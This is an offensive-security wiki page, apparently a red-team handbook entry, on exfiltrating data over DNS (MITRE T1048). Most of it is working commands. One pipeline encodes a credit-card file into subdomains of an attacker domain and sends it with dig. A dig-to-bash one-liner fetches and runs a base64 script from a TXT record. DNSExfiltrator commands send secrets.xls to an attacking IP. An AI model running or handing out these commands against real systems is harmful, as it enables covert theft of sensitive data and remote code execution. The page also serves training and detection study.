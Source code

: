 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Over DNS

## Theory

The DNS protocol is a common protocol and Its primary purpose is to resolve domain names to IP addresses and vice versa. Even though the DNS protocol is not designed to transfer data, threat actors found a way to abuse and move data over it.\
Since DNS is not a transport protocol, many organizations don't regularly monitor the DNS protocol! The DNS protocol is allowed in almost all firewalls in any organization network. For those reasons, threat actors prefer using the DNS protocol to hide their communications.

### Limitations

The DNS protocol has limitations that need to be taken into consideration, which are as follows,

* The maximum length of the Fully Qualified FQDN domain name (including .separators) is 255 characters.
* The subdomain name (label) length must not exceed 63 characters (not including .com, .net, etc).

### Scenario

Now let's discuss the Data Exfiltration over DNS requirements and steps, which are as follows:\
1 - An attacker registers a domain name, for example, tunnel.com\
2 - The attacker sets up tunnel.com's NS record points to a server that the attacker controls.\
3 - The malware or the attacker sends sensitive data from a victim machine to a domain name they control—for example, passw0rd.tunnel.com, where passw0rd is the data that needs to be transferred.\
4 - The DNS request is sent through the local DNS server and is forwarded through the Internet.\
5 - The attacker's authoritative DNS (malicious server) receives the DNS request.\
6 - Finally, the attacker extracts the password from the domain name.

## Practice

{% tabs %}
{% tab title="Manualy" %}
{% hint style="info" %}
We consider that a NS record named `t1.tunnel.com` has been registered and is pointing the Attacking IP.
{% endhint %}

In order to receive any DNS request on the attacking machine, we need to capture the network traffic for any incoming UDP/53 packets using the [tcpdump](https://github.com/the-tcpdump-group/tcpdump) tool.

```bash
v4resk@kali$ sudo tcpdump -i eth0 udp port 53 -v 
```

On the victim machine, we first encode datas that need to be send, and split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach it as a subdomain name.

```bash
# Methode 1
victim@pwnd.lab$ cat credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.t1.tunnel.com/' > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.t1.tunnel.com
IKQWRkcmVzczogMTIz.t1.tunnel.com
NCBJbnRlcm5ldCwgVE.t1.tunnel.com
hNCkNyZWRpdCBDYXJk.t1.tunnel.com
OiAxMjM0LTEyMzQtMT.t1.tunnel.com
IzNC0xMjM0CkV4cGly.t1.tunnel.com
ZTogMDUvMDUvMjAyMg.t1.tunnel.com
pDb2RlOiAxMzM3Cg==.t1.tunnel.com

#Methode 2
victim@pwnd.lab$ cat credit.txt |base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ > toExfiltrate.txt
victim@pwnd.lab$ cat toExfiltrate.txt
TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com
```

In order to send this datas, on the compromised host we can do:

```bash
victim@pwnd.lab$ cat toExfiltrate.txt | awk '{print "dig +short " $1}' | bash
```

Finally, on the attacking machine, we can decrypt datas as follow:

```bash
v4resk@kali$ echo "TmFtZTogVEhNLXVzZX.IKQWRkcmVzczogMTIz.NCBJbnRlcm5ldCwgVE.hNCkNyZWRpdCBDYXJk.OiAxMjM0LTEyMzQtMT.IzNC0xMjM0CkV4cGly.ZTogMDUvMDUvMjAyMg.pDb2RlOiAxMzM3Cg==.t1.tunnel.com." | cut -d"." -f1-8 | tr -d "." | base64 -d
```
{% endtab %}

{% tab title="Command Execution" %}
Let's see how can tunneling code execution via the DNS protocol. We first need to create a `TXT` record containing our script encoded in base64. Let's take`script.tunnel.com` as example.

```bash
#Check if the TXT record is well configured
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com
"IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo="

#Execution over DNS
victim@pwnd.lab$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```
{% endtab %}

{% tab title="DNSExfiltrator" %}
[DNSExfiltrator](https://github.com/Arno0x/DNSExfiltrator) allows for transfering (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.\
On the attacking machine we do:

```bash
v4resk@kali$ ./dnsexfiltrator.py -d mydomain.com -p password
```

On the compromised host:

```bash
dnsExfiltrator.exe secrets.xls mydomain.com password s=ATTACKING_IP t=500
```
{% endtab %}
{% endtabs %}

### DNS Tunneling

An other methode is to tunneling other protocols over DNS. Check this page for more details.

{% content-ref url="../pivoting/dnsTunneling.md" %}
[dnsTunneling.md](../pivoting/dnsTunneling.md)
{% endcontent-ref %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
